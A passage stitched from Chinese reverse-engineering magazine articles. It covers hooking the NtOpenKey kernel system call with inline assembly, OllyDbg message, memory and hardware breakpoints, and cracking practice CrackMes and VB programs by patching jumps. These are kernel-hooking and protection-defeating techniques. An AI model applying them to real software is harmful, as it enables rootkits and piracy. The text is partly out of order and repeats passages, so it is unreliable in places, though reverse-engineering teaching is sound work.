对于过滤结果的钩子函数编写，首先需要使控制流在离开钩子函数以后再返回钩子函数，其次需要自己保存栈上的输入参数。对于第一个问题，这样的话，在控制流第一次跳转到钩子之后，首先就要修改返回地址：将原来的返回地址保存起来，然后压入位于本钩子函数中某点的地址，作为新的返回地址。这样，原始系统调用返回之后，控制流就重新回到了钩子函数中。对于第二个问题，读者需要知道在原始系统调用返回的前一刻，有一个出栈操作，这将导致栈上的参数不可用了。所以我们需要将原始调用参数保留一个副本。为此我们需要将函数再一次压栈，然后调用（是调用，而不是跳转）原始系统调用，使用同原来一致的参数，但是修改了返回地址。钩子函数的执行流程如图 4 所示。

如果在函数头前加上 `__declspec(naked)`，就可以创建：

```c
__declspec(naked) NTSTATUS NewNtOpenKey(
    OUT PHANDLE KeyHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes
){
    __asm {
        mov esi, esp
        sub esp, 16
        mov edi, esp
        mov ecx, 4
        rep movsd

        add esp, 4
        push L02

        mov edx, L01
        mov esi, offset CodeBytes
        mov ecx, 10
        rep movsb

L01:
        _emit 0h
        _emit 0h
        _emit 0h
        _emit 0h
        _emit 0h
        _emit 0h
        _emit 0h
        _emit 0h
        _emit 0h
        _emit 0h
        jmp [OldNtOpenKey]
L02:
        mov edi, edi
        push ebp
        mov ebp, esp
        push eax
    }
}
```

```asm
...printf("Got handle: %d\n", *KeyHandle);
...
pop eax
mov esp, ebp
pop ebp
ret 0ch
```

首先注意到这个函数被声明为“裸”函数。代码的第一部分先将栈上的参数（包括返回地址）复制一份，然后修改复制的返回地址，以便系统调用返回时控制流回到标号为 L02 处。接着将原来保存的代码字节复制到本函数内预留的十个字节空间，在运行时完成修正并继续执行。

跟随实际代码，我们可以看到当控制流在钩子函数入口时，栈上的情形为：

```text
kd> dd @esp
f5336d54 804df7ec 0007f6a0 00020019
0007f680
f5336d64 0007f758 7c92e514 badb0d00
0007f668
```

在复制了参数并修正返回地址之后，栈上的情形为：

```text
kd> dd @esp
f5336d44 f8bfc447 0007f6a0 00020019
0007f680
f5336d54 804df7ec 0007f6a0 00020019
0007f680
f5336d64 0007f758 7c92e514 badb0d00
0007f668
```

其中 f8bfc447 为代码中 L02 的地址，实际这里的代码是：

```asm
kd> u f8bfc447
f8bfc447 8bff        mov edi, edi
f8bfc449 50          push eax
f8bfc44a 55          push ebp
```

然后我们先看在将代码字节拷贝过来之前的情况，保留的十个空字节此时代码被错误地反汇编为：

```asm
f8bfc437 0000  add byte ptr [eax], al
f8bfc439 0000  add byte ptr [eax], al
f8bfc43b 0000  add byte ptr [eax], al
f8bfc43d 0000  add byte ptr [eax], al
f8bfc43f 0000  add byte ptr [eax], al
```

而当我们完成了字节代码的拷贝之后，同样的地址上变成了：

```asm
f8bfc437 68bc000000   push 0BCh
f8bfc43c 68a8754e80   push offset ...
```

读者对照前文给出的 NtOpenKey 函数，可以发现这就是原始函数的前十个字节。

然后程序准备通过跳转语句执行原始系统调用，如下：

```asm
f8bfc441 ff25...   jmp dword ptr [nt!OldNtOpenKey (...)]
ds:0023:f8bfc610=80569d52
```

地址 f8bfc610 处的值，也就是即将跳转的地址为 80569d52。

通过查看 80569d52 处代码，可以发现确实执行了偏移 10 字节处的代码，如下：

```asm
kd> uf NtOpenKey
...
80569d48 ff252cc6bff8   jmp dword ptr [nt!NewNtOpenKey2 (...)]
80569d4e 90             nop
80569d4f 90             nop
80569d50 90             nop
80569d51 90             nop
80569d52 e8f496f7ff     call nt!_SEH...
```

```asm
prolog (804e344b)
80569d57 33db        xor ebx, ebx
```

在系统调用返回后，控制流转移到 f8bfc447 处。代码为：

```asm
f8bfc447 8bff        mov edi, edi
f8bfc449 50          push eax
```

此时我们观察栈上的情况：

```text
kd> dd @esp
f5336d54 804df7ec 0007f6a0 00020019 0007f680
f5336d64 0007f758 7c92e514 badb0d00 0007f668
```

我们记得在开始执行的时候，我们将栈修改为 esp=f5336d44，而现在的值为 esp=f5336d54，减少了 16 字节。在 NtOpenKey 函数的结尾，我们也可以看到 `ret 0ch` 的返回语句。地址 4 字节，弹栈 12 字节，正好是 16 字节。

代码中第一行的 `mov edi, edi` 没有意义，只用于占位，作为断点位置。对于 eax 的压栈是必要的。对内核熟悉的读者都应该知道，绝大多数内核函数在执行完毕后会返回一个 NTSTATUS 值作为执行结果，而调用函数也常常根据这个值表现出不同的行为。

然后是为了使用 C 函数而进行的栈修正。要理解这点，首先看作为 C 函数的 DbgPrint 编译后的代码：

```asm
f8b4644d 8b4508        mov eax, dword ptr [ebp+8]
f8b46450 8b08          mov ecx, dword ptr [eax]
f8b46452 51            push ecx
f8b46453 681065b4f8    push offset n1
??::FNODOBFM::`string' (f8b46510)
f8b46458 e8a5000000    call n1!DbgPrint (f8b46502)
f8b4645d 83c408        add esp, 8
```

容易看到，函数使用 `ebp+8` 来引用第一个参数。问题在于，即使我们不做栈的修正，代码仍然会被这样编译，那必然导致错误。这里的 DbgPrint 只是打印出一个值，然后就结束了。

最后的步骤是 `ret 0ch`。因为我们在之前已经复制了栈上的参数和返回地址，所以这样 `ret` 指令就可以将栈保持平衡。之后，控制流返回了系统调用分发代码。系统调用结束，控制流接着返回到用户模式，从中断的地方继续执行。

## 三、结语

以上，我们较为细致地讨论了在内核系统服务调用过程的挂钩方法，包括一些细节性的问题。至此，读者已经掌握了对于系统调用挂钩的基本方法，而在实践中，具体的代码编写工作则是对读者想象力的考验了。最后，如果读者想同笔者交流关于此文中涉及的技术，可以发送电子邮件到 331750819@qq.com，我们共同学习。

# 消息断点（十三）——识别断点（下）

rejector

上一期讲到了一些在调试过程中常用到的断点，这一期再讲另外一些比较经常见到的断点。

首先来说一下消息断点，在说消息断点之前先来扯一些关于 Windows 操作系统消息处理机制的东西。

所谓消息，其实就是指 Windows 发出的一个通知，告诉应用程序某个事情发生了。例如，单击鼠标、改变窗口尺寸、按下键盘上的一个键，都会使 Windows 发送一个消息给应用程序。消息本身是作为一个记录传递给应用程序的，这个记录中包含了消息的类型以及其他信息。例如，对单击鼠标所产生的消息来说，这个记录中包含了单击鼠标的消息号、单击鼠标时的坐标。

Windows 的消息系统是由 3 个部分组成的：

- 1. **消息队列**。Windows 能够为所有的应用程序维护一个消息队列。应用程序必须从消息队列中获取消息，然后分派给某个窗口。
- 2. **消息循环**。通过这个循环机制，应用程序从消息队列中检索消息，再把它分派给适当的窗口，然后继续从消息队列中检索下一条消息，再分派给适当的窗口，依次进行。
- 3. **窗口过程**。每个窗口都有一个窗口过程来接收传递给窗口的消息，它的任务就是获取消息然后响应它。窗口过程是一个回调函数；处理了一个消息后，它通常要返回一个值给 Windows。

一个消息从产生到被一个窗口响应，其中有 5 个步骤：

- 1. 系统中发生了某个事件。
- 2. Windows 把这个事件翻译为消息，然后把它放到消息队列中。
- 3. 应用程序从消息队列中接收到这个消息，把它存放在 TMsg 记录中。
- 4. 应用程序把消息传递给一个适当的窗口的窗口过程。
- 5. 窗口过程响应这个消息并进行处理。

步骤 3 和 4 构成了应用程序的消息循环。

消息循环是 Windows 应用程序的核心，因为消息循环使一个应用程序能够响应外部的事件。消息循环的任务就是从消息队列中检索消息，然后把消息传递给适当的窗口。如果消息队列中没有消息，Windows 就允许其他应用程序处理它们的消息。

通常来说，消息循环是这样的：

```c
while(GetMessage(&msg,NULL,0,0))
{
    TranslateMessage(&msg);
    DispatchMessage(&msg);
}
```

简单地解释一下，这里涉及了三个 API 函数：GetMessage 函数用于从消息队列中取得消息，TranslateMessage 函数用于检索并生成字符消息 WM_CHAR，DispatchMessage 函数用于将消息发送给相应的窗口函数。这里的 MSG 是消息结构，我们看看 MSDN 里给出的这个结构的定义：

```c
typedef struct Msg
{
    HWND hwnd;
    UINT message;
    WPARAM wParam;
    LPARAM lParam;
    DWORD time;
    TPoint pt;
};

typedef struct TPoint
{
    int x;
    int y;
};
```

Msg 是一个代表消息的结构体，有 6 个成员变量。第一个 hwnd 是消息要传向的窗体的句柄；message 是用于区别其他消息的常量值，就是由它来决定 Windows 传递的是什么消息；wParam 和 lParam 都是 32 位消息的特定附加信息，wParam 通常是一个与消息有关的常量值，也可能是窗口或控件的句柄，lParam 通常是一个指向内存中数据的指针；time 是消息创建时的时间；pt 是消息创建时的鼠标位置，它是一个结构体 TPoint，有两个成员变量，用来表示鼠标的位置坐标。

知道了这些以后，现在来试试 OD 的消息断点功能。先运行本节的 CrackMe 看看（图 1），可以注意到是一个编辑框和一个“CHECK”按钮。我们输入“abcdefg”后点“CHECK”试试，但是发现按了“CHECK”按钮以后程序毫无反应。打开 OD，加载这个 CrackMe，这里读者可能会想到前面章节的内容：前面我们说过 GetDlgItemTextW 函数可以用来获取编辑框里的内容，那我们就试试，给 GetDlgItemTextW 函数设置一下函数断点，然后按 F9 让程序运行，然后输入“abcdefg”，点“CHECK”，但是依然没有被中断下来。我们要知道，程序要实现某一个功能不止有一种方法。那就说明程序获取编辑框里的字符串并没有调用 GetDlgItemTextW 函数。

现在就该轮到消息断点上场了。点击工具栏里的“W”来打开“windows”窗口，里面显示当前运行程序的所有窗体和子窗体（图 2、图 3）。现在我们需要向编辑框下断，编辑框是当前窗体的子窗体，但是我们不知道在“windows”窗口里显示的几个句柄哪个是它的。这里需要用到一个工具“Spy++”，它是 Visual Studio 里自带的工具。打开 Spy++ 可以看到，编辑框的句柄是“002108E0”（图 4）。现在回到 OD，选中这个句柄，点击鼠标右键，选择“在 ClassProc 上设置消息断点”（图 5），然后在弹出的断点窗口中选择“WM_GETTEXT”消息（图 6）。这里需要说明一下，通过传递“WM_GETTEXT”消息也可以获取到编辑框里的内容。这里选择“WM_GETTEXT”消息后按“确定”，然后在 CrackMe 里输入“abcdefg”后按“CHECK”，这时程序就会被中断在消息循环里（图 7），再按 ALT+F9 返回用户代码就可以看到我们想看到的代码了：

```asm
01251088  push eax
01251089  push 400
0125108E  push 0D
01251090  push 01252104
01251095  push 0
01251097  push 0
01251099  push edi
0125109A  call dword ptr [<&USER32.Send...>] ; FindWindowEx>

012510A0  push eax
012510A1  call dword ptr [<&USER32.Send...>] ; MessageW>
012510A7  push 10
```

# 主题乐园

这里通过调用 FindWindowExW 函数来获取子窗体的句柄，也就是编辑框的句柄，然后再调用 SendMessageW 向程序发送 WM_GETTEXT 消息。再往下看几句，是字符串比较的代码，再往下看：

```asm
0125111B  test eax,eax
0125111D  jnz short 01251139
0125111F  push eax
01251120  push 01252108
01251125  push 01252128
0125112A  push edi
0125112B  call dword ptr [<&USER32.MessageBoxW>]
```

这里使用 `test` 指令来做一次比较，然后是一句选择跳转。如果跳转不执行则弹出对话框提示“Yes, you got it!”，否则跳过。对于处理字符串的代码前面章节已经讲过很多次，这里不再重复。也可以通过修改选择性跳转来实现破解，只要让程序不再执行跳转，那么无论字符串是否正确，程序都会提示“Yes, you got it!”。

在调试的时候，在某一内存地址设置内存访问断点，这样在程序执行时如果要访问到这一地址的数据就会触发内存访问断点被中断；如果在某一内存位置设置内存写入断点，这样在程序执行时如果要向这一地址写入数据就会触发内存写入断点被中断。

看看程序实例（图 10、图 11），测试数据输入“abcdefg”，然后按“CHECK”，程序会弹出对话框提示“Sorry, your string incorrect!”。打开 OD 并加载程序后，在字符串参考里只看到一条字符串“06ae6cd84d82a827fb”，位于地址 000C2114，于是把重点放在这边并查看对应代码：

```asm
77094D22 55            push ebp
77094D23 8BEC          mov ebp,esp
...
```

还有一种断点叫做内存断点，一般我们用到的内存断点有内存访问断点和内存写入断点两种。内存访问断点就是指程序访问内存中我们指定的内存地址时中断；内存写入断点就是指程序往我们指定的内存地址中写东西时中断。

```asm
002A1050  mov ecx,dword ptr [2A3430]
002A1056  mov edx,002A2114
002A105B  jmp short 002A1060
002A105D  lea ecx,[ecx]
002A1060  mov ax,word ptr [ecx]
002A1063  cmp ax,word ptr [edx]
002A1066  jnz short 002A1085
002A1068  test ax,ax
; 这一个字是不是 0
002A106B  je short 002A1082
; 为零则执行跳转
002A106D  mov ax,word ptr [ecx+2]
; 取下一个字
002A1071  cmp ax,word ptr [edx+2]
; 与目标字符串的下一字比较
002A1075  jnz short 002A1085
; 不相同则执行跳转
002A1077  add ecx,4
; 指针向后移动 4 字节，即两字
002A107A  add edx,4
; 指针向后移动 4 字节，即两字
002A107D  test ax,ax
; 这一个字是不是 0
002A1080  jnz short 002A1060
; 不是零则执行跳转
```

仔细理解一下这段代码的逻辑：前两句获取两个字符串的指针，第二个字符串就是我们在刚才的字符串参考窗口里看到的字符串，然后下面是一个循环结构，按字比较这两个字符串，每次比较两个字，如果有不相等的则退出循环，或者当到达字符串结尾（`test ax, ax` 指令用来判断 ax 是不是 0，0 就是字符串结尾）则跳出循环。

这段代码的意图很清晰，用来比较两个字符串是不是相等。这样就可以大胆地猜测一下，字符串“06ae6cd84d82a827fb”就是程序的正确字符串，这里的代码正是用来把正确字符串和输入的字符串进行比较的。那按照前面的方法，在这里设置一个条件断点即可。选中第一句代码按 SHIFT+F2，在条件对话框中填入 `unicode[ecx]=="abcdefg"`，这样当我们输入“abcdefg”的时候程序就会中断（图 13）。但是在程序过程中却发现程序并没有被中断，那这个字符串到底是干什么的。

可以看到这个字符串处于内存 002A2114 处，在 OD 的命令行窗口中输入命令 `d 002A2114`，就可以在数据窗口中查看地址 002A2114 处的数据（图 14）。现在我们在这里设置一个内存断点，选中这个地址，点击鼠标右键，然后选择“断点”-“内存访问”，这样当程序要读取这个位置的数据时就会触发内存访问断点（图 15）。

再次测试一下，输入“abcdefg”，然后按“CHECK”，程序果然被中断了，还是中断在那段比较字符串的代码处。看看寄存器里的数据（图 16），ecx 里的数据依然是刚刚的那个字符串，而 edx 却不是我们输入的“abcdefg”，是“06AE6CD84D82A827FB”。这个字符串是干什么的，为什么要和原来比较？按 CTRL+F9 让程序执行到返回。到这里突然发现了柳暗花明的代码：

```asm
013D114C  push 0
013D114E  test eax,eax
013D1150  jnz short 013D1177
013D1152  mov edi,013D3040
013D1157  call 013D1000
013D115C  push eax
013D115D  mov edi,013D301C
013D1162  call 013D1000
013D1167  push eax
013D1168  push esi
013D1169  call dword ptr [<&USER32.MessageBoxW>]
013D116F  push 0
013D1171  call dword ptr [<&KERNEL32.ExitProcess>]
```

这里的代码毋庸置疑是读者最想看到的了：比较 eax 是不是 0，如果不是 0 则执行跳转跳过这些代码，否则向下执行弹出一个对话框，然后调用 ExitProcess 函数退出进程。这里的第三句就是爆破点，只要修改这个指令不让跳转执行，就可以实现对这个 CrackMe 的破解。把这句跳转指令修改为 nop 指令就可以保存了。运行修改后的文件（图 17），测试通过。

对目标内存地址设置不可访问属性或者不可写属性来实现内存访问断点和内存写入断点。设置了不可访问属性或者不可写属性以后，程序再要从目标内存地址读取或写入数据时就会触发异常，这时调试器就会捕捉到这个异常，检查异常的地址是不是内存断点的地址。如果是的话就中断程序。因为每次异常都要做比较，所以内存断点会影响调试器的速度。在 OD 里内存断点只能设置 1 个。

和软件断点相对的是硬件断点，它需要 CPU 的硬件支持，与调试器无关。在 CPU 的寄存器中，有一些寄存器，它们用于调试，我们把它们称为调试寄存器，硬件断点就是通过调试寄存器来实现的。

和软件断点相比较，硬件断点具有很多优点，其执行速度要比软件断点高出许多。并且通常的软件断点只能设在 RAM 运行的代码上，而随着系统的代码量越来越大，特别是在移动通信领域，扩充大容量的 RAM 势必会增加产品的成本，所以现在很多系统直接在 FlashROM 上运行代码。对于这种在 FlashROM 上运行代码的系统，一般的软件断点是无法设置的，这也是软件断点的局限性。硬件断点可以设置在任何位置的代码上，包括 ROM 和 RAM；而软件断点由于需要修改相应地址的值，所以一般只能设在 RAM 上，但是数量可以不受限制。由于硬件断点设置的灵活性，所以是最优先选用的断点资源，但是两个断点往往很难满足工程师进行深入调试的需要，于是软件断点可以作为硬件断点的补充资源来使用。

## 硬件断点的实现

在说到硬件断点之前，先来说说 CPU 里的调试寄存器。

调试寄存器总共有 8 个，从 DR0 到 DR7。每个寄存器的特性如下：

- DR0-DR3：调试地址寄存器，保存需要监视的地址，就是断点的地址；
- DR4-DR5：保留，未公开具体作用；
- DR6：调试寄存器组状态寄存器；
- DR7：调试寄存器组控制寄存器，和 DR6 都用来记录在 DR0-DR3 中设置断点的地址属性，是硬件读还是硬件写，或者是硬件执行；是对字节还是对字，或者是双字。

硬件断点原理是使用 4 个调试寄存器（DR0、DR1、DR2、DR3）来设定地址，以及 DR7 设定状态，因此它有个缺陷，最多只能设置 4 个断点。


图19

## 硬件断点的使用

硬件断点具有以上所介绍的所有断点功能。常用到的有：硬件访问断点、硬件写入断点、硬件执行断点。在 OD 的数据窗口里选中要设置硬件断点的地址，然后点击鼠标右键就可以在该地址设置一个硬件断点。图18，设置的内存断点可以通过选择菜单栏“调试”-“硬件断点”查看，图19、图20。如果想查看调试寄存器，只需要在寄存器窗口点击鼠标右键，选择“查看调试寄存器”，图21、图22。


图20


图21


图22

（文中涉及的相关代码本期光盘已收录）

# 破解透视（十四）——对于 VB 程序的破解

rejector

从这节课开始，我们来讲一些关于高级语言的分析技术。

首先我们来了解一些关于高级语言的知识。目前所使用的程序设计语言有两种：一种是编译型语言，另一种是解释型语言。知道了一个程序所使用的编程语言，那么根据这种语言的特性对程序进行分析，必将事半功倍。本章介绍当前主流的 VB、Delphi、C++ 三种语言，使读者了解这三种语言平台的特性，这在今后的逆向分析过程中必然是一个不小的帮助。

解释型语言，由被称作翻译器的软件一边把人类记述的程序变换成电脑可执行的形式，一边执行的形式的语言。解释型语言是高级语言，与机器语言一对一地对应的汇编语言相比，解释型语言具有较高的抽象度，与人类平常使用的自然语言十分相近。由于电脑无法识别人类所记述的源代码，所以由解释语言翻译成机器语言，转换成可执行的程序语言。解释型语言因为解释器不需要直接同机器码打交道，所以实现起来较为简单，而且便于在不同的平台上移植，这一点从现在的编程语言解释执行的居多就能看出来，如 Visual Basic、Visual Foxpro、Power Builder、Java 等都是解释型语言。

编译型语言，它是一步地将程序的源代码转换成机器语言程序之后再执行的语言。这种语言由于需要先把程序转换成机器语言程序然后再执行，所以在开发速度与易用度、修正方便性上都超越了汇编语言；并且，由于不需要在执行过程中同时进行翻译，所以在执行效率上和解释型语言相比占有很大的优势。编译型语言因为要直接同 CPU 的指令集打交道，具有很强的指令依赖性和系统依赖性，从而在不同执行平台上具有局限性。但编译后的程序执行效率要比解释语言高得多，像现在的 Visual C/C++、Delphi 等都是很好的编译语言。

本节课从 VB 开始来讲。VB 是 Visual Basic 的简称，是由美国微软公司于 1991 年开发的一种可视化的、面向对象和采用事件驱动方式的结构化高级程序设计语言，可用于开发 Windows 环境下的各类应用程序。它简单易学、效率高，且功能强大，可以与 Windows 专业开发工具 SDK 相媲美。在 Visual Basic 环境下，利用事件驱动的编程机制、新颖易用的可视化设计工具，使用 Windows 内部的广泛应用程序接口（API）函数、动态链接库（DLL）、对象的链接与嵌入（OLE）、开放式数据连接（ODBC）等技术，可以高效、快速地开发 Windows 环境下功能强大、图形界面丰富的应用软件系统。

对于代码的安全性而言，解释型语言和编译型语言可以说是各有优缺点。但解释型语言有一个致命弱点，那就是解释语言的程序代码都是以伪代码的方式存放的，一旦被人找到了伪码与源码之间的对应关系，就很容易做出一个反编译器出来，你的源程序等于被公开了一样。而编译型语言因为直接把用户程序编译成机器码，再经过优化程序优化，很难从程序返回到你的源程序状态；但对于熟悉汇编语言的逆向工作者来说，也很容易通过跟踪你的代码逆向分析来确定某些代码用途。

在 VB 编译中，有两种编译模式，一种是 Native-Code，另一种是 P-Code。

P-Code，全称是 Pseudo-Code，就是伪代码的意思。P-Code 是介于 VB 程序中的高级指令和计算机处理器执行的低级本机代码之间的一种中间步骤。在运行时刻，Visual Basic 将每一句伪代码交给 MSVBVM60.DLL 来翻译，然后转换成本机代码来执行；对于 VB4.0 及 VB4.0 以前的 VB 版本都只提供 P-Code 编码模式。P-Code 可以被认为是一种普通的机器级代码，而 CPU 不能识别它。在运行 P-Code 之前，需要一个解释器先处理它，把 P-Code 转换为 CPU 可以识别的机器语言。这个过程看起来有点像 JAVA。为了执行 JAVA 语言写成的应用程序，我们需要一个进行解释和翻译的处理程序——虚拟机（Virtual Machine），而 VB 的 P-Code 解释器也可以把它理解成一个进行解释和翻译的程序虚拟机。玩过早期 VB 版本的同学肯定都知道，那时候用 VB 语言编写的程序都很容易被反编译，那时候伪代码和解释器之间都有一条比较明显的界线，只要理解了它们之间的对应机制，要做出反编译器不会很困难。

P-Code 的优势是明显的。假如定义了一组特殊的专属性指令集，并且不公布它的详细定义规范说明，那么一般人就很难理解生成的程序代码。并且 P-Code 减小了可执行文件尺寸，通过定义独特的单字节操作码，我们能够使得某些伪指令执行一系列操作，而这些操作需要大量机器码才可以完成。而 Visual Basic 所包含的 P-Code 也的确如此，它使用一个 VB 解释器，也就是刚才说的虚拟机，把 VB 的 P-Code 代码翻译成本地机器码。虚拟机以 DLL 形式出现，在 P-Code 程序执行前被调用，用来解释相关 VB 伪指令。例如 VB6 的虚拟机 DLL 名称是 MSVBVM60.DLL。

名称清晰地表明是 Microsoft Visual Basic Virtual Machine，后面跟着不同的版本信息。

虚拟机不仅解释 Visual Basic 的 P-Code 文件，同时它也被用于执行编译过的机器码。这是因为 VB 虚拟机（MSVBVM60.DLL）同时也包含所有 VB 程序要调用的 API。例如 rtcMsgBox 函数，等价于标准 Windows API MessageBox 函数。P-Code 代码被 VB 虚拟机解释执行时，VB 中所有函数都是以这种间接方式被提供的。由于这个原因，当跟踪一个 Windows API MessageBox 被 P-Code 程序调用时，产生了一个严重问题，就是必须要跟踪 P-Code 伪指令。而 OD 却无法跟踪 P-Code 伪指令，它只能跟踪 VB 虚拟机的执行过程。更明确地说，OD 只能理解 CPU 处理器机器码，它不能理解任何伪指令，这里就需要一款针对 VB 的 P-Code 伪指令工具了，这里来介绍一下 SmartCheck。

SmartCheck 是 NuMega 公司推出的一款出色的调试解释执行程序工具，是针对 Visual Basic 的主要自动错误检测和调试工具。它能够自动检测和诊断使用 VB 语言编写的程序在运行时的错误，并将一些表达不清楚的错误信息转换为确切的错误描述语句。它的 EventDebugging 特性为 Visual Basic 开发小组和独立开发人员解决最棘手的问题提供了简便方法。枪可以保护人，当然也可以杀人，它同时是一个 VB 程序的杀手！在 Cracker 手中它也是一款针对 VB 程序的破解利器！

SmartCheck 的运行界面如图 1。这里通过分析一个简单的 P-Code 程序来了解一下 VB 程序的 P-Code 代码是怎样工作的。假设有这样一段 VB 代码：

```vb
Private Sub Command1_Click()
    Dim name As String, code As String
    Dim i As Integer
    name = Text1.Text
    For i = 1 To Len(name)
        code = code & CStr(Asc(Mid(name, i, 1)))
    Next i
    Text2.Text = code
End Sub
```


简单理解一下这段代码：定义 name 和 code 两个字符串，定义一个整型变量 i；获取 Text1 编辑框中的内容赋值给 name 字符串，然后用一个循环把这个字符串转化成它对应的 ASCII 码，并放到 Text2 编辑框里。编译以后，使用 SmartCheck 就可以看到它的 P-Code 代码：

```text
{Command1_Click}
00401BD8 0468FF          FLdRfVar
; 开辟内存空间
00401BDB 21              FLdPrThis
; 和对象配套使用
00401BDC 0F0403          VCallAd
; 获得窗体句柄
00401BDF 196CFF          FStAdFunc
; 取 propget 过程地址
00401BE2 086CFF          FLdPr...
; 加载过程
********** Reference To: [propget] TextBox.Text，Text1.Text 的取值过程
00401BE5 0DA000000000    VCallHresult
; 获取文本框中的内容
00401BEA 3E68FF          FLdZeroAd
; 将内容入栈
00401BED 3178FF          FStStr
; 释放字符
00401BF0 1A6CFF          FFree1Ad
00401BF3 F401            LitI2_Byte
00401BF5 0472FF          FLdRfVar
; 将文本框中的内容入栈
00401BF8 6C78FF          ILdRf
; 字符串入栈作为参数
00401BFB 4A              FnLenStr
; 计算字符串长度
00401BFC E4              CI2I1
********** 循环计算开始
00401BFD FE6364FE7200    ForI2
; For 运行头
00401C03 6C74FF          ILdRf
00401C06 2834FF0100      LitVarI2
00401C0B 6B72FF          FLdI2
00401C0E E7              CI4UI1
00401C0F 0478FF          FLdRfVar
00401C12 4D54FF0840      CVarRef
00401C17 0424FF          FLdRfVar
```

图1

# 主题乐园


再来看 **Native-Code**。Native-Code 就是常说的自然编译，把程序源代码编译为特定于处理器的机器码。VB5.0 及以上版本新增了该功能，因此 VB 已不再是纯解释型语言，主程序部分可被真正编译，并可链接为可执行文件。

既然是编译成汇编语言了，那么分析起来就和平常反汇编基本一致。这里简单介绍一些分析 VB 程序的小技巧。

虽然大部分 VB 程序仍会调用 Win32 API，但如果想在 VB DLL 运行库中设断点，还需要了解与 VB 相关的一些 DLL 知识。

VB6.0 使用的 DLL 是 `c:\windows\system\msvbvm60.dll`，VB5.0 使用的 DLL 是 `c:\windows\system\msvbvm50.dll`。

想深入了解 VB 程序执行过程，可以逆向分析这两个文件。VB DLL 中的函数一般以 `__vba` 和 `rtc` 开头：

| 函数 | 说明 |
|---|---|
| rtcR8ValFromBstr | 把字符串转化为浮点数 |
| rtcMsgBox | 弹出提示窗口 |
| rtcBeep | 打开蜂鸣器 |
| rtcGetPresentData | 取得当前日期 |
| rtcFileLen | 计算文件大小 |
| rtcMidCharVar | 截取字符串 |
| rtcMidCharBstr | 截取字符串 |
| __vbaStrCmp | 比较两个字符串 |
| __vbaStrComp | 比较两个字符串 |
| __vbaStrCompVar | 比较两个字符串 |
| __vbaLenBstr | 计算字符串长度 |
| __vbaLenVar | 计算变量长度 |
| __vbaStrCopy | 复制字符串 |
| __vbaStrMove | 移动字符串 |
| __vbaVarTstNe | 比较两个变量是否不相等 |
| __vbaVarTstEq | 比较两个变量是否相等 |
| __vbaSetObj | 设置对象属性 |
| __vbaFileOpen | 打开文件 |
| __vbaFileSeek | 调整文件指针 |
| __vbaWriteFile | 写入文件 |
| __vbaFileClose | 关闭文件 |

另外，VB DLL 还调用了 oleaut32.dll 中的部分函数。oleaut32.dll 是对象链接与嵌入 OLE 相关文件，实际中 VB 程序许多运算在该 DLL 中完成。这里列出一些以 Var 开头、用于变量操作的常见函数：

- VarCmp：比较两个变量
- VarCyCmp：比较两个 Currency 变量
- VarBstrCmp：比较两个 Bstr 变量
- VarDecCmp：比较两个 decimal 变量

读者在分析 VB 程序时，遇到字符串相关函数如果不了解 VB 字符串结构会比较麻烦。VB 处理中使用 WideCharacter（Unicode）格式，本质是 8 位 ASCII 扩展为 16 位，高 8 位常为 0x00。Unicode 字符在 VB 中组成 BSTR：Unicode 字符数组 + 32 位长度前缀 + 16 位 0x0000 后缀。

```text
0x0E 0x00 0x00 0x00 0x6D 0x00 0x6F 0x00 0x6E 0x00 0x73 0x00 0x74 0x00 0x65 0x00 0x72 0x00 0x00 0x00
```

来看一个简单例子 CrackMe2。随意输入字符串“abcdefg”，点击“Check”后程序提示“Your string is incorrect!”。


打开 OD 加载 CrackMe，按 F9 运行。由于输入错误会弹出提示框，可在 rtcMsgBox 函数处下断点，在 OD 命令行执行“bp rtcMsgBox”，再次输入“abcdefg”并点击“Check”，程序会在 rtcMsgBox 处中断。按 Alt+F9 返回用户代码，可看到对 rtcMsgBox 的调用。


这里调用了 __vbaStrCmp 函数，用于比较字符串“monster”和另一个由 eax 指向的字符串。设置断点后运行并再次输入“abcdefg”，程序在断点中断。在 OD 命令行执行“d eax”查看 eax 指向数据：

```text
00275154  61 00 62 00 63 00 64 00 65 00 66 00 67 00 00 00
.a.b.c.d.e.f.g...
```

这就是 Unicode 字符串“abcdefg”。结合前述 BSTR 结构（32 位长度前缀 + Unicode 数据 + 0x0000 后缀），查看前 4 个字节：

```text
00275150  0E 00 00 00 61 00 62 00 63 00 64 00 65 00 66 00
...a.b.c.d.e.f.
```

打开 OD，加载这个 CrackMe，按 F9 先让程序运行起来。既然刚才输入错误字符串时弹出信息对话框提示，那么这里就先对 rtcMsgBox 函数设置一个断点，在 OD 的命令行里执行命令进行调试。

# 主题乐园

**00275160 67 00 00 00**

前 4 个字节是 0x0000000E，也就是十进制的 14，表示这个字符串的长度，正好验证了前面的说法。

“abcdefg”是刚才进行测试时输入到程序编辑框里的字符串，这里把它拿来和字符串“monster”进行比较，那这个“monster”字符串是不是打开这个 CrackMe 的字符串呢？这里还不能确定。再往下看几句，会注意到有这样一条指令：

```text
00401C9C je short 00401CF6
```

在这里设置一个断点。这里把前面调用 __vbaStrCmp 函数比较字符串“monster”和用户输入字符串的返回值拿来当作判定条件进行跳转，如果相等就执行跳转，跳过刚才调用 rtcMsgBox 函数的指令。跳转后还会有一条调用 rtcMsgBox 函数的指令：

```text
00401D36 call dword ptr [<&MSVBVM60.#595>] ; MSVBVM60.rtcMsgBox
```

现在输入字符串“monster”，然后按“Check”按钮，程序就会被中断在 00401C9C 处的条件跳转指令。按 F8 步过，跳转成功执行了，然后一直按 F8 往下，运行到 00401D36 的时候程序弹出信息对话框提示“You are right!”，如图5，这就得出了程序所需要的正确字符串。


VB 语言采用了面向对象设计思想，它的基本思路是把复杂的设计问题分解为多个能够完成独立功能且相对简单的对象集合。所谓“对象”，其实就是可操作实体，如窗体、窗体中命令按钮、标签、文本框等。面向对象编程就是指程序员可根据界面设计要求直接在界面上设计出窗口、菜单、按钮等类型对象，并为每个对象设置属性。在 Windows 系统环境下是以事件驱动方式运行的，每个对象都能响应多个互相区别的事件，每个事件都能驱动一段代码事件过程，该代码决定了对象功能。通常称这种机制为事件驱动的编程机制。可由用户操作触发，也可以由系统或应用触发，例如单击一个命令按钮就触发了按钮 Click（单击）事件，该事件中的代码就会被执行；若用户未进行任何操作（未触发事件）则就处于等待状态，整个应用就是由彼此独立的事件过程构成的。

这样，就可以找出每个“对象”的事件，从而对程序逐个击破。这里来看看怎么解析出使用 VB 语言编写程序的控件属性。用 WinHex 打开 CrackMe2，可以找到如下数据：


位于对象名称后的第二个字节是每种控件和对象对应的值：

- 0x00 PictureBox
- 0x01 Label
